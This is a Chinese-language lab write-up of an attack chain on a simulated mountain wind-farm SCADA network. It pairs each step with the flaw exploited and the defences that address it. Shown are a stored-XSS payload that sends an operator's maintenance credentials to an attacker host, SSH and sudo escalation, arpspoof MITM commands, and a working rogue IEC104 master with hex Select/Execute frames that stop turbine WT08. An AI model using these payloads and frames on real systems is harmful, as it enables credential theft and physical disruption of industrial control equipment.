


# 山区链复盘

> 定位：授权靶场与教学环境的知识整理。文中所有 IP、端口、IOA、凭据、payload 均取自靶场素材，仅用于讲清漏洞成因与防护方向。

## 一句话概括

攻击者全程没有直接接触控制网：先用工单系统的存储型 XSS 借值班员的浏览器偷到维护凭据，再借维护站的网络位置做 ARP MITM 插入二层控制链路，从真实抓包里读出遥控参数（TypeID/CA/IOA/SBO），最后自写 Rogue Master 把 COT 的 Test 位从 1 改成 0，让 WT08 停机、功率归零。


## 链路总览

```text
mountain-workorder (10.0.2.8:8080)
  -> /static/js/remote-maint.js 暴露 /api/maintenance/current-session
  -> 直接访问返回 {"error":"operator_context_required"}（需值班员上下文）
  -> 工单 MNT-071 评论框 <textarea name="body"> 未转义 -> 存储型 XSS
  -> operator bot 以值班员身份打开工单 -> credentials:'include' 拉接口回连攻击机
  -> 拿到 remote-maintainer / remote-maint-2026 / 目标 10.0.4.6
  -> ssh remote-maintainer@10.0.4.6   (mountain-maint-ws, sudo NOPASSWD: ALL)
  -> config/remote-link.yaml + /var/log/iec104-monitor.log
       frontend3-lower=10.0.4.2  conpot=10.0.4.5  IEC 60870-5-104 :2404
  -> ARP MITM（ip_forward=1 + 双向 arpspoof）
  -> tcpdump 解析 C_SC_NA_1：TypeID=45 CA=3 IOA=10490 COT=activation Test=1 SBO SCS=0
  -> 自写 Rogue IEC104 Master，Test=0，同一 TCP 内 Select -> Execute
  -> conpot RTU 10.0.4.5 执行 WT08_STOP_CMD
  -> mountain HMI (10.0.2.7:8080) WT08 停机、功率归零、告警 POWER_LIMIT_ZERO
```

与平原链的差别在"借位置"：借值班员的浏览器、借维护站的网络位置，最后在二层用 ARP 把自己插进控制链路。

## 前置状态

打开 `http://10.0.2.7:8080`（山区 SCADA HMI），确认基线：

- 三台风机 `RUNNING`，`active_power_kw > 0`（素材中非目标风机读数为 96）。
- `alarm = NONE`。
- 工单系统 `http://10.0.2.8:8080` 中有工单"山区远动通信链路年度检查"（编号 MNT-071），详情页含关联系统、通信链路、摘要、评论区与评论提交表单。

## 逐步拆解

### 步骤 1：从工单页源码发现前端 JS 线索

- 做什么：`curl -s http://10.0.2.8:8080/workorders/MNT-071 | grep -i 'remote-maint.js'`，命中 `<script src="/static/js/remote-maint.js"></script>`。
- 为什么成立（证据来源）：前端 JS 往往包含后端接口地址。开发时把"远程维护上下文"的实现放到了浏览器侧，等于把接口文档随页面发给任何人。
- 命中什么漏洞：敏感信息暴露（内部接口路径写入前端资源）。
- 学到什么：拿到一个 Web 系统，先穷举它加载的静态 JS。这比目录爆破更快命中"设计者没打算让你看"的接口。

### 步骤 2：发现维护上下文接口，并确认它需要更高身份

- 做什么：读 `/static/js/remote-maint.js`，发现 `/api/maintenance/current-session` 与 `credentialType=ssh_password`；直接请求返回 `{"error": "operator_context_required"}`。
- 为什么成立（证据来源）：接口按会话上下文授权，不按令牌，只认"值班员 operator 的浏览器会话"。返回 `operator_context_required` 是明确的功能提示：接口存在、逻辑存在，只是调用者身份不够。
- 命中什么漏洞：接口授权模型基于上下文而非显式鉴权，为 XSS 借身份铺路。
- 学到什么：`operator_context_required` 这种"友好错误"是攻击者的路标：只要能让 operator 的浏览器替我发请求，就能拿到凭据。

### 步骤 3：确认评论字段未转义（确定注入点）

- 做什么：`curl -s http://10.0.2.8:8080/workorders/MNT-071 | grep -A5 'comment-body\|textarea name="body"'`，确认评论由 `<div class="comment-body">{body}</div>` 直接渲染，提交入口是 `<textarea name="body">`。
- 为什么成立（证据来源）：输入侧（textarea）与输出侧（comment-body）都没有 HTML 转义，这是存储型 XSS 的两个必要条件：可写入 + 原样渲染。
- 命中什么漏洞：存储型 XSS（Stored XSS），输出编码缺失。
- 学到什么：判断存储型 XSS 的关键不是"能不能提交 HTML"，而是"别的用户（尤其是高权用户）会不会打开这一页"。工单是多人协作场景，天然的 XSS 放大器。

### 步骤 4：起监听并提交探针，确认 operator bot 存在

- 做什么：攻击机 `10.0.2.3` 上 `python3 -m http.server 8000`，提交探针：

  ```html
  
  ```

  日志出现 `GET /xss_probe?u=.../operator/workorders/MNT-IEC104-071`。
- 为什么成立（证据来源）：`src=x` 是不存在的图片，加载失败必然触发 `onerror`。回连 URL 里的路径 `/operator/...` 证明触发者是 operator 身份、确实打开了工单页。
- 命中什么漏洞：存储型 XSS 已被高权角色触发。
- 学到什么：先打探针再打真 payload 是标准作业顺序：把"XSS 会不会被执行"和"能不能读到数据"解耦，避免用一个复杂 payload 去赌两个未知。

### 步骤 5：读取维护凭据（借值班员的手）

- 做什么：提交读取 payload（平台实测改为 GET 回连）：

  ```html
  r.text()).then(t=>{new Image().src='http://10.0.2.3:8000/maint_session?data='+encodeURIComponent(t)})">
  ```

  从 `GET /maint_session?data=...` 的 URL 解码得到：

  ```json
  {"target":"10.0.4.6","host":"mountain-maint-ws","username":"remote-maintainer",
   "credential_type":"ssh_password","credential_value":"remote-maint-2026"}
  ```

- 为什么成立（证据来源）：`credentials:'include'` 让请求带上受害浏览器的 Cookie/会话，服务端看到的是"值班员在查询自己的维护上下文"。返回内容里直接含目标地址、用户名、SSH 密码明文，说明凭据以明文形式存放在服务端会话上下文。
- 命中什么漏洞：凭据明文下发 + XSS 组合导致凭据泄露；`credential_type=ssh_password` 说明用的是密码而非密钥。
- 学到什么：XSS 在工控场景的危害是拿走通往控制网的钥匙。该被追责的设计缺陷是"凭据可被前端接口明文拉取"。

### 步骤 6：SSH 进入维护工作站并提权

- 做什么：`ssh remote-maintainer@10.0.4.6`（密码 `remote-maint-2026`），随后 `whoami`=`remote-maintainer`、`hostname`=`mountain-maint-ws`、`ip -br addr`=`ens18 10.0.4.6/24`、`sudo -l`=`(root) NOPASSWD: ALL`，再 `sudo bash`。
- 为什么成立（证据来源）：账号密码来自上一步的泄露数据，不是爆破。`sudo -l` 显示 `NOPASSWD: ALL`，说明该账号在设计上就是"完全运维权限"。
- 命中什么漏洞：维护账号权限过大（无最小权限约束）、复用密码、无多因素。
- 学到什么：注意：凭据泄露的严重性取决于该凭据的权限面。若 `remote-maintainer` 只能看日志，这条链到这就断了。

### 步骤 7：探索文件系统，定位配置与日志

- 做什么：依次 `ls -la ~`、`ls -la /opt/windfarm/mountain-maint-ws/`、`ls -la .../config/`、`.../logs/`、`.../profiles/`、`ls -la /var/log/ | grep iec104`、`cat .../README.md`。发现 `config/remote-link.yaml`、`logs/iec104-monitor.log`、`logs/control-check-sequence.log`、`profiles/site-maint.profile`、`/var/log/iec104-monitor.log`。
- 为什么成立（证据来源）：工程化部署有固定布局（`/opt/windfarm/<node>/`），README 直接说明了工作流程。README 常被当成"给运维看的文档"，从攻击者视角它是"系统说明书"。
- 命中什么漏洞：文档与配置对普通运维账号完全可读（信息面过大）。
- 学到什么：横向移动后第一件事是读 README 和目录结构，而不是扫全网。文档描述的流程就是攻击路径。

### 步骤 8：从配置与日志确定 IEC104 通信目标

- 做什么：`cat config/remote-link.yaml`、`cat /var/log/iec104-monitor.log`、`nmap -sT -p 2404 10.0.4.0/24`。结果：`upstream_peer.address = 10.0.4.2`（frontend3-lower）；日志出现 `peer=10.0.4.2`、`peer=10.0.4.5`、`src=10.0.4.2 dst=10.0.4.5 dport=2404`；nmap 仅 `10.0.4.5` 的 2404 `open`（conpot RTU），其余 closed。
- 为什么成立（证据来源）：通信对象、对端角色、协议、端口全部来自本机配置文件与日志，不是猜测。日志里出现真实的 `src/dst/dport` 五元组，等于给出了要 MITM 的那条会话。
- 命中什么漏洞：日志记录了完整流量元数据但未做访问控制（任何登录者可读）。
- 学到什么：工控网络里"谁和谁说话"通常能在一台机器的日志里找全。有了 peer 对 + 端口，MITM 就从"广播风暴"变成"精准定向欺骗"。

### 步骤 9：ARP MITM 插入控制链路

- 做什么：

  ```bash
  sudo sysctl -w net.ipv4.ip_forward=1
  sudo arpspoof -i ens18 -t 10.0.4.2 10.0.4.5 &   # 骗前置机
  sudo arpspoof -i ens18 -t 10.0.4.5 10.0.4.2 &   # 骗 RTU
  ```

- 为什么成立（证据来源）：维护工作站 `10.0.4.6` 与 frontend3-lower `10.0.4.2`、conpot `10.0.4.5` 在同一二层网段，这是 ARP 欺骗可行的前提。双向 `arpspoof` 让两端的 ARP 缓存都把攻击者 MAC 当作对端 MAC；`ip_forward=1` 保证转发后通信不中断，不被业务侧察觉。
- 命中什么漏洞：控制网段缺乏二层防护（无 DHCP Snooping / Dynamic ARP Inspection / 端口隔离），IEC104 流量明文无加密无完整性。
- 学到什么："能不能 MITM"由网络位置决定，"MITM 后能不能改"由协议保护决定。这里两者皆缺：位置给了，IEC104 本身也没有加密/签名。

### 步骤 10：抓包，读出遥控参数字典

- 做什么：

  ```bash
  sudo timeout 90 tcpdump -i ens18 -nn -s0 tcp port 2404 -w /tmp/iec104_capture.pcap
  tcpdump -r /tmp/iec104_capture.pcap -nn | head -30
  ```

  解析结论：流量方向 `10.0.4.2 -> 10.0.4.5:2404`；同一 seq 的包出现两次（ARP 转发生效的直接证据）；`length 6` = STARTDT，`length 16` = Select/Execute 帧；`TypeID=45(C_SC_NA_1)`、`CA=3`、`IOA=10490`、`COT=activation`、`Test=1`、`SBO=Select→Execute`、`SCS=0`。
- 为什么成立（证据来源）：所有参数都是从真实流量里"抄"出来的：TypeID 决定命令类型（单点遥控），CA 决定站地址，IOA 决定控制对象，SBO 决定交互流程，SCS 决定目标状态。结合日志推导 `IOA=10490` 对应 `WT08_STOP_CMD`。
- 命中什么漏洞：IEC104 明文传输（无 TLS、无 IEC 62351 安全扩展），控制报文可被被动嗅探。
- 学到什么：`Test=1` 说明这是测试通道的真实报文，攻击者只需改成 `Test=0`，就把"模拟"变成了"正式控制"。这是整条链最关键的语义复用手法。

### 步骤 11：自写 Rogue IEC104 Master

- 做什么：按抓包参数写 Python 脚本（保留身份与站地址，仅改 Test 位），核心是构造 `C_SC_NA_1`：

  ```python
  STARTDT_ACT = bytes.fromhex("680407000000")
  def cot_byte(cot=6, test=False, pn=False):
      return ((1 if test else 0) << 7) | ((1 if pn else 0) << 6) | (cot & 0x3F)
  def ioa_bytes(ioa):
      return bytes([(ioa >> 16) & 0xFF, (ioa >> 8) & 0xFF, ioa & 0xFF])
  def sco_byte(select, scs=0):
      return (0x80 if select else 0x00) | (scs & 0x01)
  def c_sc_na_1(ca, ioa, select, send_seq, recv_seq, scs=0, test=False):
      asdu = bytes([45, 1, cot_byte(6, test), 0])
      asdu += struct.pack("<H", ca) + ioa_bytes(ioa) + bytes([sco_byte(select, scs)])
      return bytes([0x68, 4 + len(asdu)]) + control_field(send_seq, recv_seq) + asdu
  ```

  平台实测的等价单行版本（同一 socket 内完成 SBO）：

  ```bash
  python3 -c "import socket,time; s=socket.create_connection(('10.0.4.5',2404),timeout=5); \
  s.send(bytes.fromhex('680407000000')); time.sleep(0.3); \
  s.send(bytes.fromhex('680e000000002d01060003000028fa80')); time.sleep(0.4); \
  s.send(bytes.fromhex('680e020002002d01060003000028fa00')); time.sleep(0.6); \
  print(s.recv(256).hex()); s.close()"
  ```

  三帧含义：`680407000000` = STARTDT；`680e000000002d01060003000028fa80` = Select（COT=0x06 正式控制，CA=3，IOA=10490 大端 `00 28 fa`，SCO=0x80）；`680e020002002d01060003000028fa00` = Execute（SCO=0x00）。预期返回 `68040b000000`（STARTDT con）、`...2d0107...`（ACT_CON ×2）、`...01010b...29fa...`（M_SP_NA_1 遥测 IOA=10746）、`...2d010a...`（ACT_TERM）。
- 为什么成立（证据来源）：脚本没有"猜"的成分：`45`/`1`/`ca=3`/`ioa=10490`/`scs=0` 全部来自抓包，`0x80` 来自 Select 帧的 SCO 字节，`test=False` 是唯一主动的改动。发完用返回码自检：`2d0147` 判 NEG_CON、`2d0107` 判 ACT_CON、`2d010a` 判 ACT_TERM。
- 命中什么漏洞：IEC104 服务端不校验链路来源（无客户端认证）、不校验 SBO 与前置机会话绑定、`Test` 位边界形同虚设。
- 学到什么：注意：SBO（Select-Before-Operate）在设计上是防误操作的，本身不防攻击。它要求"先选后控"在同一链路内完成，攻击者只要在同一 socket 里发两帧就能满足。真正的防护必须来自链路认证与报文完整性，而不是流程约束。

### 步骤 12：HMI 验证业务影响

- 做什么：回到 `http://10.0.2.7:8080` 确认 WT08 已停机、功率归零、出现告警。
- 为什么成立（证据来源）：`conpot RTU` 收到 `C_SC_NA_1 / IOA=10490` 后映射为 `WT08_STOP_CMD` 并执行，状态变化通过 `M_SP_NA_1`（IOA=10746）回传，SCADA 据此刷新页面。
- 命中什么漏洞：无（验证环节）。
- 学到什么：验收要看两处：HMI 页面（业务表现）与协议回包（技术证据）。只凭页面变化无法区分"遥控成功"与"遥测异常"。

## 协议落点

- 协议：IEC 60870-5-104（IEC104），TCP 端口 2404。
- 帧结构：APCI（`0x68` + 长度 + 4 字节控制域） + ASDU。参见 [IEC104 帧结构](../_assets/iec104帧.svg) 与 [SBO 遥控时序](../_assets/iec104遥控流程.svg)。
- 落点字段（五层定位，缺一不可）：

  | 字段 | 取值 | 作用 |
  | --- | --- | --- |
  | TypeID | `45` = C_SC_NA_1 | 单点遥控命令，决定"这是一条控制" |
  | CA | `3` | 公共地址，决定"发给哪个站" |
  | IOA | `10490` | 信息对象地址，对应 `WT08_STOP_CMD`，决定"控制哪台设备" |
  | COT | `0x06` activation | 传输原因，决定"这是激活而不是确认/撤销" |
  | Test | `1 -> 0` | 决定成败的那一位：1 = 测试通道，0 = 正式控制 |
  | SBO (S/E) | `0x80 -> 0x00` | 选择位，先 Select 再 Execute |
  | SCS | `0` | 单点命令状态值（分/合） |

- 为什么 Test 位决定成败：抓包看到业务系统本身就在发"关于 WT08 停机"的合法控制，只是带 `Test=1` 走测试通道。攻击者不构造任何新语义，只清掉测试标志位，就让同一条命令从"演练"变成"实操"，绕开了"测试通道不会影响生产"的设计假设。





## 业务影响

HMI 上可观察到的变化：

```text
WT08: active_power_kw = 0
      active_power_limit_percent = 0
      alarm = POWER_LIMIT_ZERO
alarms: [{"message": "WT08 POWER_LIMIT_ZERO", "source": "WT08"}]
其他风机: RUNNING, active_power_kw = 96, alarm = NONE
```

即：单台机组停机，其余机组不受影响。这与平原链"场站整体归零"形成对照，说明两条链的作用域不同（平原是三台 RTU 逐个写入，山区是单点 IOA 精确打击）。

## 恢复现场

山区链的影响落在 SCADA/PLC 侧状态机，恢复需要重置被测端状态：

1. 复位被控 RTU（conpot `10.0.4.5`）的遥测与控制状态，使 WT08 回到 `RUNNING` / `ON_GRID`。
2. 复位 SCADA HMI（`10.0.2.7`）侧的告警与事件记录，确认 `alarm = NONE`。
3. 停止 MITM 与抓包进程：结束两个 `arpspoof` 后台任务，把 `net.ipv4.ip_forward` 置回 0，让 `10.0.4.2 ↔ 10.0.4.5` 恢复直连。
4. 清理工单 `MNT-071` 评论区中的 XSS 评论记录，避免下一轮验题时探针被历史 payload 干扰。
5. 若做过多次 SBO，检查 `sqNum`/`stNum` 是否已被推进（真实设备上连续遥控会推高序列号）。

## 验收标准

```text
[ ]  1. 前置：HMI(10.0.2.7:8080) 三台 RUNNING、alarm=NONE。
[ ]  2. 工单 MNT-071 详情页可检出 /static/js/remote-maint.js。
[ ]  3. /api/maintenance/current-session 未带 operator 上下文时返回 operator_context_required。
[ ]  4. 评论区可提交 HTML，comment-body 原样渲染（未转义）。
[ ]  5. 探针在攻击机 http.server 日志产生回连，回连路径含 operator/workorders/。
[ ]  6. 取回 current-session，得到 target=10.0.4.6 / username=remote-maintainer / ssh_password。
[ ]  7. SSH 登录 mountain-maint-ws 成功，sudo -l 显示 NOPASSWD: ALL。
[ ]  8. remote-link.yaml 读出 upstream_peer.address=10.0.4.2。
[ ]  9. iec104-monitor.log 中出现 src=10.0.4.2 dst=10.0.4.5 dport=2404。
[ ] 10. nmap -p 2404 10.0.4.0/24 仅 10.0.4.5 open。
[ ] 11. 双向 arpspoof + ip_forward=1 后，抓包出现同一 seq 重复包（转发生效）。
[ ] 12. 抓包解出 TypeID=45 / CA=3 / IOA=10490 / COT=activation / Test=1 / SBO / SCS=0。
[ ] 13. Rogue Master 发 Select→Execute，收到 ACT_CON 与 ACT_TERM。
[ ] 14. HMI 上 WT08 停机、功率归零、告警 POWER_LIMIT_ZERO；其余风机正常。
```

## 安全视角

| 环节 | 真实防护措施 |
| --- | --- |
| 前端 JS 暴露接口 | 内部接口路径不写入前端资源；接口清单由服务端按角色下发 |
| 上下文授权 | `current-session` 类接口改为显式令牌 + 角色声明，不依赖"谁在调用"的隐式上下文 |
| 存储型 XSS | 输出编码（HTML entity）+ 输入侧白名单过滤；部署 CSP（禁 inline script、限制 `connect-src`/`img-src`）；Cookie 加 `HttpOnly`/`SameSite=Strict` |
| 凭据下发 | 绝不向前端接口下发明文凭据；改为一次性短期凭据（短 TTL、单次使用、绑定源 IP）；用 SSH 证书代替密码 |
| 维护账号权限 | 最小权限原则，取消 `NOPASSWD: ALL`；运维操作走跳板机 + 命令审计；强制 MFA |
| 配置文件与日志 | 日志脱敏（不落完整五元组到普通账号可读路径）；配置按角色分级可读 |
| ARP MITM | 接入层开启 DHCP Snooping + Dynamic ARP Inspection；控制网段端口隔离；静态 ARP / 802.1X |
| IEC104 窃听 | 部署 IEC 62351-3（TLS）保护传输层；或纵向加密认证装置；控制流量与运维流量分 VLAN |
| IEC104 遥控 | 服务端校验客户端身份；COT/SBO 校验要与已认证会话绑定；测试通道与生产通道物理/逻辑隔离，`Test=1` 报文严禁进入生产链路 |
| 遥控闭锁 | WT08 停机类关键遥控加双人确认/操作票；对 IOA=10490 这类高危对象做操作白名单与频次限制 |
| 监控审计 | 对 `C_SC_NA_1` 遥控逐条审计（源 IP、CA、IOA、COT、Test 位、操作员）；对 `Test=1 -> 0` 的边界穿越单独告警；对 `M_SP_NA_1` 状态突变（IOA=10746）联动拉响告警 |

## 交叉引用

- IEC104 协议基础与四遥：`../03-IEC104/远动四遥.md`
- IEC104 抓包分析：`../03-IEC104/抓包分析.md`
- IEC104 遥控与 SBO：`../03-IEC104/关键字段.md`
- 分层与分区：`../00-工控基础/分层与分区.md`
- 图示：[攻击链总览](../_assets/攻击链.svg)、[IEC104 帧](../_assets/iec104帧.svg)、[SBO 遥控时序](../_assets/iec104遥控流程.svg)

## 素材中的不确定处

- 维护上下文接口 IP 不一致：Step 2 的"web 端命令"写 `http://10.0.7.137:8080/api/maintenance/current-session`，而"cll 实测命令"与其余全链使用 `10.0.2.8`。以 `10.0.2.8` 为准，`10.0.7.137` 疑为其他环境残留。
- Rogue Master 目标 IP 不一致：脚本示例的"手册运行"写作 `--host 10.0.7.8`，"平台实测命令"写作 `10.0.4.5`。以 `10.0.4.5`（conpot RTU）为准。
- 工单编号不一致：Step 1 为 `MNT-071`，Step 3 探针回连日志示例中出现 `/operator/workorders/MNT-IEC104-071`。两处编号不同，可能是探针示例文本沿用了旧版编号。
- 素材未给出 conpot RTU 侧的可读写点表（不像平原链有 `pointmap.csv`），因此 `IOA=10490 -> WT08_STOP_CMD` 的映射是从 `iec104-monitor.log` 与 HMI 结果反推的，没有独立点表文件佐证。
- HMI 返回中 `active_power_limit_percent=0` 与 `alarm=POWER_LIMIT_ZERO` 同平原链告警码一致，但山区链并未执行写 HR93 的动作，推测为 HMI 展示层复用同一告警语义；素材未说明该字段的实际来源寄存器。
